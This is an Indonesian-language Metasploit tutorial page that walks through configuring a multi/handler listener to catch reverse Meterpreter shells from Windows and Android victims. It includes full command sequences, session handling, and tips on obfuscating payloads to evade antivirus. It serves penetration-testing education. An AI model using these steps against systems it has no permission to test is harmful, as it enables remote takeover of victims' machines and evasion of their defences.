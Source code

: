 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Memahami%20Payload%2C%20Encoder%2C%20dan%20NOPs.md">Memahami Payload, Encoder, dan NOPs</a>
</p>

# Membuat Listener

## A. Apa itu Listener

`Listener` adalah komponen di Metasploit yang berfungsi untuk menerima koneksi balik (reverse connection) dari payload yang sudah ditanamkan ke target. Di Metasploit terdapat modul listener yaitu:

```
exploit/multi/handler
```

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

2. Pilih Modul multi/handler:

   ```
   use exploit/multi/handler
   ```

3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   Keterangan:
   - **LHOST**: IP Attacker (listener)
   - **LPORT**: Port tempat menerima koneksi

5. Jalankan Listener:

   ```
   run
   ```

   Atau bisa juga:

   ```
   exploit
   ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j -z
```

Keterangan:
- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

Melihat job listener aktif:

```
jobs
```

Menghentikan job tertentu:

```
jobs -k <ID>
```

Menghentikan semua job:

```
jobs -K
```


## F. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID>
```

## G. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## H. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Bypass%20Antivirus%20(AV)%20dengan%20Metasploit%20Framework.md">Bypass Antivirus (AV) dengan Metasploit Framework</a>
</p>
